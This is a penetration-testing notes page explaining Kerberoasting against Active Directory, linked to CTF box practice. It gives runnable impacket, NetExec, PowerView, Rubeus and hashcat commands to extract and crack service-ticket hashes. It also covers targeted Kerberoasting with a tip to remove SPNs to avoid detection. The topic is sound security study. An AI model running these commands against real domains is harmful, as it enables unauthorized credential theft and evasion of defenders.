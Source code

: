 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Kerberoasting

## Concept

**Kerberoasting** is an attack on the **Service Ticket (ST)** and **Service Principal Names (SPNs)**. [SPNs](../recon.md#spns) are unique IDs that Kerberos uses to map a service instance, for example MySQL, to a service sign-in account, such as `svc_mysql`, in whose, often privileged, context the service is running. The ST is encrypted with the service's account NTLM hash, so it can potentially be cracked. **Any domain user can request a ST from the DC for any SPN account**.

> _Accounts like `krbtgt`, **computer accounts**, and **(g)MSAs** are usually resistant due to complex, long passwords._

<figure><img src="../../../.gitbook/assets/kerberoasting_process (1).png" alt=""><figcaption><p>Figure 1: The Kerberos authentication process (image taken from <a href="https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel">here</a>).</p></figcaption></figure>

> _Typically,_ [_Kerberoasting_](kerberoasting.md) _happens after compromising a domain user. However, according to_ [_new research_](https://www.semperis.com/blog/new-attack-paths-as-requested-sts/)_, it is possible to perform this attack with an account susceptible to ASREPRoast (for an example of this check_ [_Rebound_](../../../boxes/insane/rebound.md#kerberoasting)_)._

## Attack

{% tabs %}
{% tab title="Linux" %}
We can check if an account has an SPN using [PowerView](../../../tools/active-directory/powerview.md).

```bash
# Confirm that the target account has SPN
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```

> If time sync errors occur, i.e., `KRB_AP_ERR_SKEW(Clock skew too great)` :
>
> ```bash
> sudo ntpdate 192.168.50.70
> ```

Then we can proceed to Kerberoast the target account with [NetExec](../../../tools/active-directory/netexec-cme.md) or [Impacket](../../../tools/active-directory/impacket.md)'s `GetUserSPNs`.

{% code overflow="wrap" %}
```bash
# Kerberoast the target account with NetExec
nxc ldap 192.168.0.104 -u user -p pass --kerberoasting output.txt

# Kerberoast the target account with Impacket's GetUserSPNs
impacket-GetUserSPNs -dc-ip 172.16.5.5 DOMAIN/user -request -outputfile spns.lst

# Kerberoast an account susceptible to ASREPRoasting with Impacket's GetUserSPNs
impacket-GetUserSPNs -no-preauth jjones -usersfile dom_users -dc-host 10.10.11.231 rebound.htb/ -outputfile kerb.txt
```
{% endcode %}

> _For an example of Kerberoasting with NetExec check_ [_here_](https://x7331.gitbook.io/boxes/boxes/boxes/easy/active#eop-via-kerberoasting)_._

Finally, we can crack the hashes using [`hashcat`](../../../tools/passwords/hashcat.md).

{% code overflow="wrap" %}
```bash
sudo hashcat -m 13100 hashes.kerberoast rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
{% endcode %}
{% endtab %}

{% tab title="Windows" %}
We can check if an account has an SPN using [PowerView](../../../tools/active-directory/powerview.md) or [Rubeus](../../../tools/active-directory/rubeus.md).

```powershell
# Confirm that the target account has SPN with PowerView
Get-DomainUser 'sqldev' | Select serviceprincipalname
# Enumerate all user-linked SPNs and extract TGS-REP hashes with Rubeus
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

Then we can proceed to Kerberoast the target account with [PowerView](../../../tools/active-directory/powerview.md) or [Rubeus](../../../tools/active-directory/rubeus.md).

{% code overflow="wrap" %}
```powershell
# Kerberoast the target account with PowerView
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat

# Kerberoast the target account with Rubeus
.\Rubeus.exe kerberoast /creduser:domain\user1 /credpassword:pass /user:targetUser /outfile:hash.txt /format:hashcat /nowrap

# Kerberoast an account susceptible to ASREPRoasting with Rubeus
.\Rubeus.exe kerberoast /domain:<domain> /dc:<ip> /nopreauth:<user> /spns:<username-list>
```
{% endcode %}

> _For an example of Kerberoasting with Rubeus check_ [_here_](https://x7331.gitbook.io/boxes/boxes/boxes/insane/sizzle#path-to-victory)_._

Finally, we can crack the hashes on our attacking machine using [`hashcat`](../../../tools/passwords/hashcat.md).

{% code overflow="wrap" %}
```bash
sudo hashcat -m 13100 hashes.kerberoast rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
{% endcode %}

Optionally, we can clear the SPNs of the target account.

```powershell
# Clear the SPNs of the target account
Set-DomainObject -Identity sqldev -Clear serviceprincipalname
```
{% endtab %}
{% endtabs %}

## Targeted Kerberoasting

If we have `GenericWrite` or `GenericAll` on a user object, we can set an SPN on that user account and then extract and crack the TGS. This attack can be performed with [`targetedKerberoast.py`](https://github.com/ShutdownRepo/targetedKerberoast).&#x20;

> _Remember to clean up by removing the SPN afterward to avoid detection!_

```bash
targetedKerberoast.py -v -d <DOMAIN_FQDN> -u <USER> -p <PASSWORD>
```

## Resources

{% tabs %}
{% tab title="Demo" %}
{% embed url="https://www.youtube.com/watch?v=-3MxoxdzFNI" %}
Kerberoasting in 14 minutes!
{% endembed %}
{% endtab %}

{% tab title="GetUserSPNs" %}
{% embed url="https://www.youtube.com/watch?v=xH5T9-m9QXw" %}
How GetUserSPNs script work behind the scenes!
{% endembed %}
{% endtab %}

{% tab title="Lecture" %}
{% embed url="https://www.youtube.com/watch?v=Jaa2LmZaNeU" %}
{% endtab %}

{% tab title="Article" %}
{% embed url="https://adsecurity.org/?p=3458" %}
A great article detailing the Kerberoasting process.
{% endembed %}
{% endtab %}

{% tab title="targetedKerberoast" %}
{% embed url="https://github.com/ShutdownRepo/targetedKerberoast" %}
{% endtab %}
{% endtabs %}
